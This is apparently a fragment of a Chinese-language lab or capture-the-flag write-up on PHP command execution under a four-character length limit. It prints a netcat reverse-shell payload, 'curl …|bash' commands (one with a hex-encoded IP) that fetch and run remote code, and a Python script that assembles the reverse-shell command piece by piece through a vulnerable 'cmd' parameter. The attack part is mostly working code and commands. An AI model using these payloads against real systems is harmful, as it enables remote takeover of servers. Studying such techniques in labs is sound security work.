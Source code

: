 ```py

```

```shell
touch index.html
vim index.html
写入nc 192.168.88.141 7777 -e /bin/bash
python -m http.server 80
```

![image-20240316114729553](PHP命令执行.assets/image-20240316114729553.png)

### 长度为4进行绕过

ls>>_追加命令长度为5，超过4个，将不再适用

步骤一：构造ls -t>g

步骤二：构造一个反弹shell
			curl 192.168.88.141|bash
			curl 0xC0A801A1|bash

步骤三：反弹回来的shell查看flag

```py
#encoding:utf-8
import time
import requests
baseurl = "http://192.168.1.6:19080/class09/4/ffff.php?cmd="
s = requests.session()

# 将ls -t 写入文件g
list=[
    ">g\;",
    ">g\>",
    ">ht-",
    ">sl",
    ">dir",
    "*>v",
    ">rev",
    "*v>x"
]

# curl 192.168.1.161|bash
list2= [
    ">ash",
    ">b\\",
    '>\|\\',
    '>A1\\',
    '>01\\',
    '>A8\\',
    '>C0\\',
```